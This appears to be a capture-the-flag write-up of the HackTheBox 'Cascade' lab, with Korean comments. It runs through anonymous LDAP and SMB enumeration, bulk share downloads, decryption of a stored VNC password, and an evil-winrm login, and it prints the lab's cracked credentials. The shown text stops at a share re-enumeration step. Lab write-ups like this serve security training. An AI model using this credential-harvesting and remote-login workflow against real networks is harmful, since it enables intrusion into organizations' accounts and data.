 ```yaml
---
layout: post
title: HackTheBox Cascade
subtitle: Acitive Directory 101 Cascade Exam WriteUp
author: g3rm
categories: HTB
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - HTB
  - WriteUp
sidebar:
---
```

## Summary
![](/assets/images/posts/2025-03-04-Cascade/e62731204ae8e75e2ba8c8157bcd0580_MD5.jpeg)

## Target - 10.129.192.253
### Open Port
```bash
nmap -sC -sV -Pn -p- 10.129.192.253 -oN Cascade_allport
```
![](/assets/images/posts/2025-03-04-Cascade/d068db01853b01b1190c5f0893e7b02d_MD5.jpeg)
### LDAP Enumeration Using Ldapsearch
```bash
# https://www.geeksforgeeks.org/ldap-enumeration/
# username 찾기
crackmapexec smb 10.129.192.253 -u '' -p '' --users

# 위에서 찾은 username으로 Ldapsearch
ldapsearch -x -H ldap://10.129.192.253 -b 'DC=cascade,DC=local' -D '' -w '' | grep -i r.thompson
ldapsearch -x sAMAccountName=r.thompson -H ldap://10.129.192.253 -b 'DC=cascade,DC=local' -D '' -w ''

# base64 decoding
rY4n5eva
```

![](/assets/images/posts/2025-03-04-Cascade/da2a3a579a986c400ebd047f5b8475ca_MD5.jpeg)
![](/assets/images/posts/2025-03-04-Cascade/a6d72c86ee2c0b9b205f1195837f5c8b_MD5.jpeg)
### SMB Enum (r.thompson Auth)
```bash
crackmapexec smb 10.129.192.253 -u 'r.thompson' -p 'rY4n5eva' --shares
crackmapexec smb 10.129.192.253 -u 'r.thompson' -p 'rY4n5eva' --spider Data --regex .

# 싹다 가져오기
smbclient \\\\10.129.192.253\\Data -U 'r.thompson' --password='rY4n5eva'
smb: \> RECURSE ON
smb: \> PROMPT OFF
smb: \> mget *
```
![](/assets/images/posts/2025-03-04-Cascade/bbf9d5955c0dc34aa49627a6d170bfbd_MD5.jpeg)
![](/assets/images/posts/2025-03-04-Cascade/d65a2eb43a96c57e046d458ac7dc5716_MD5.jpeg)
![](/assets/images/posts/2025-03-04-Cascade/c063e77df0b824b11bddc95e5b68fe55_MD5.jpeg)
![](/assets/images/posts/2025-03-04-Cascade/8ee32c59ed3ec56f3938512a9ea94f3b_MD5.jpeg)
![](/assets/images/posts/2025-03-04-Cascade/1689b05737a050bda11825906eba2c92_MD5.jpeg)

### VNC Decrypt
```bash
# https://github.com/billchaison/VNCDecrypt
echo -n 6bcf2a4b6e5aca0f | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d -provider legacy -provider default | hexdump -Cv
```
![](/assets/images/posts/2025-03-04-Cascade/802c943dd31ce351b2bb1497c97057b7_MD5.jpeg)

### evil-WinRM
```bash
evil-winrm -i 10.129.192.253 -u s.smith -p sT333ve2
```
![](assets/images/posts/2025-03-04-Cascade/c62bd9b245ee6cf85329f44dcb910f1b_MD5.jpeg)
#### In Evil-WinRM
```bash
# https://activedirectorypro.com/get-aduser-examples/ 참고해서 해보기
net user s.smith

# s.smith 로그인 시 실행되는 파일 찾기
dir C:\ -recurse -filter MapAuditDrive.vbs
type C:\Windows\SYSVOL\sysvol\cascade.local\scripts\MapAuditDrive.vbs
type C:\Windows\SYSVOL\domain\scripts\MapAuditDrive.vbs

# smb reenum
crackmapexec smb 10.129.192.253 -u 's.smith' -p 'sT333ve2' --shares
crackmapexec smb 10.129.192.253 -u 's.smith' -p 'sT333ve2' --spider Audit$ --regex .
```

![](assets/images/posts/2025-03-04-Cascade/4f2aa2c333a1674855e684e3995f3069_MD5.jpeg)
![](assets/images/posts/2025-03-04-Cascade/bdd8034515a299f96fba98278f6552b3_MD5.jpeg)
![](assets/images/posts/2025-03-04-Cascade/faab4f175aa18ad9e1a2ba1c12f52c6d_MD5.jpeg)